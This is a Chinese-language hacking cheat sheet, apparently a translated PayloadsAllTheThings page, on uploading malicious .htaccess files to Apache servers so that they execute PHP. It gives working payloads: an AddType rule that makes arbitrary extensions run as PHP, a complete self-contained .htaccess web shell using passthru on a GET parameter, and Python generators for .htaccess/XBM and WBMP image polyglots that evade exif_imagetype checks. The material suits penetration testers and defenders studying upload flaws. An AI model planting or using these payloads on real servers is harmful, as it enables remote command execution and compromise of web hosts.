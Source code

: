 # .htaccess

上传一个`.htaccess`文件以覆盖Apache规则并执行PHP。
"黑客还可以使用“.htaccess”文件技巧上传带有任何扩展名的恶意文件并执行它。举个简单的例子，想象一下上传到易受攻击服务器的一个`.htaccess`文件，该文件具有`AddType application/x-httpd-php .htaccess`配置，并且还包含PHP shell代码。由于恶意的`.htaccess`文件，Web服务器会将`.htaccess`文件视为可执行的PHP文件并执行其恶意的PHP shell代码。需要注意的一点是：`.htaccess`配置仅适用于上传`.htaccess`文件的同一目录及其子目录。"

## 摘要

* [AddType指令](#addtype指令)
* [独立的.htaccess](#独立的htaccess)
* [多语言.htaccess](#多语言htaccess)
* [参考文献](#参考文献)

## AddType指令

上传一个包含以下内容的`.htaccess`文件：`AddType application/x-httpd-php .rce`，然后上传任何带有`.rce`扩展名的文件。

## 独立的.htaccess

```python
# 自包含的.htaccess网络外壳 - htshell项目的一部分
# 由Wireghoul编写 - http://www.justanotherhacker.com

# 覆盖默认拒绝规则以使.htaccess文件可通过Web访问
<Files ~ "^\.ht">
Order allow,deny
Allow from all
</Files>

# 将.htaccess文件解释为PHP文件。这发生在Apache从.htaccess文件中解释指令之后
AddType application/x-httpd-php .htaccess
```

```php
###### SHELL ######
<?php echo "\n";passthru($_GET['c']." 2>&1"); ?>
```

## 多语言.htaccess

如果服务器端使用`exif_imagetype`函数来确定图像类型，则可以创建`.htaccess/image`多语言文件。

[支持的图像类型](http://php.net/manual/en/function.exif-imagetype.php#refsect1-function.exif-imagetype-constants)包括[X位图（XBM）](https://en.wikipedia.org/wiki/X_BitMap)和[WBMP](https://en.wikipedia.org/wiki/Wireless_Application_Protocol_Bitmap_Format)。在`.htaccess`中忽略以`\x00`和`#`开头的行，可以使用这些脚本生成有效的`.htaccess/image`多语言文件。

* 创建有效的`.htaccess/xbm`图像

    ```python
    width = 50
    height = 50
    payload = '# .htaccess文件'

    with open('.htaccess', 'w') as htaccess:
        htaccess.write('#define test_width %d\n' % (width, ))
        htaccess.write('#define test_height %d\n' % (height, ))
        htaccess.write(payload)
    ```

* 创建有效的`.htaccess/wbmp`图像

    ```python
    type_header = b'\x00'
    fixed_header = b'\x00'
    width = b'50'
    height = b'50'
    payload = b'# .htaccess文件'

    with open('.htaccess', 'wb') as htaccess:
        htaccess.write(type_header + fixed_header + width + height)
        htaccess.write(b'\n')
        htaccess.write(payload)
    ```

## 参考文献

* [通过.htaccess攻击Web服务器 - Eldar Marcussen - 2011年5月17日](http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html)
* [防止不受限制的文件上传漏洞 - Narendra Shinde - 2015年10月22日](https://blog.qualys.com/securitylabs/2015/10/22/unrestricted-file-upload-vulnerability)
* [Insomnihack Teaser 2019 / l33t-hoster - Ian Bouchard (@Corb3nik) - 2019年1月20日](http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster)